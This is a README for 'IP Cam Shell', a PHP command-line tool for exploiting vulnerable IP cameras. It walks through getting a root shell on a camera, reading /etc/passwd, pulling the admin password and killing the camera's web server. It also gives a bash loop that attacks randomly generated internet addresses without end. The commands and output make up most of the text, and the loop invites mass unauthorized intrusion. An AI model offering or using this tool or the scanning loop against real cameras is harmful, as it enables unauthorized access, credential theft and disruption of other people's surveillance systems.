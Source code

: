 IP Cam Shell
=======

IPCS is a command line script for testing and exploiting a wide range of IP cameras as demonstrated by Craig Heffner in "Exploiting Surveillance Cameras Like a Hollywood Hacker". See the slides here: https://media.blackhat.com/us-13/US-13-Heffner-Exploiting-Network-Surveillance-Cameras-Like-A-Hollywood-Hacker-WP.pdf

Requirements
=======

 * PHP 5
 * A distribution of Linux. I haven't and won't test this on Windows.

Usage
=======

Basic Usage
-------

Using IPCS is pretty straight forward. You pass the URL to ipcs.php via the -u option. 

```
$ php ipcs.php -u http://192.168.0.3:8080
```

If the camera is vulnerable you'll be dropped in to a "shell" as root and be able to exploit the camera further.

```
$ php ipcs.php -u http://192.168.0.3:8080
Those who do not understand UNIX are condemned to reinvent it, poorly. — Henry Spencer
ipcamshell>
```

It's very much like being logged in to a stripped down Unix server as root.

```
ipcamshell> whoami
root
ipcamshell> id
uid=0(root) gid=0(root)
ipcamshell> ls /
bin
dev
etc
lib
linuxrc
mnt
opt
proc
sbin
scripts
tmp
usr
var
ipcamshell> cat /etc/passwd
root:x:0:0:Linux User,,,:/:/bin/sh
```

Use `quit`, `exit`, or `^C` to exit.

Further Attacks
-------
Of course it wouldn't be very fun without the ability to login and view the camera... 

```
ipcamshell> getadminpass
Username: admin
Password: hunter2
```

If you wish to kill the web server (to prevent someone from accessing the web interface temporarily), run the `killswitch` command. Note that the camera will continue to record regardless of this. Shutting the server down *might* switch the camera off, although that's complete speculation.



If the camera isn't vulnerable, the server isn't up, or the internet hates you, you'll recieve the following message:

```
Sorry, the server specified isn't vulnerable.
```

Automation
-------

IPCS has the potential to be automated in different ways. This, I'm going to leave to you. The `-c` option won't drop you in to a shell after successfully exploiting a server, and the `-g` option surpresses the "Sorry, the server specified isn't vulnerable." messages for failed attempts.

As an example, the following bash script will forever try to attack randomly generated IPv4 addresses.

```
#!/bin/bash
while true; do export ip=$((RANDOM%256)).$((RANDOM%256)).$((RANDOM%256)).$((RANDOM%256)) && echo "Trying $ip..." && php ipcs.php -c 1 -g 1 -u http://$ip; done;
```

This is slow, and will likely yield nothing without *extremely* good luck. Use your imagination. :)

Note
=======
I do not claim the description or purpose of this tool to be 100% accurate. If you see anything which is incorrect in this document, please submit a pull request or open a new issue.
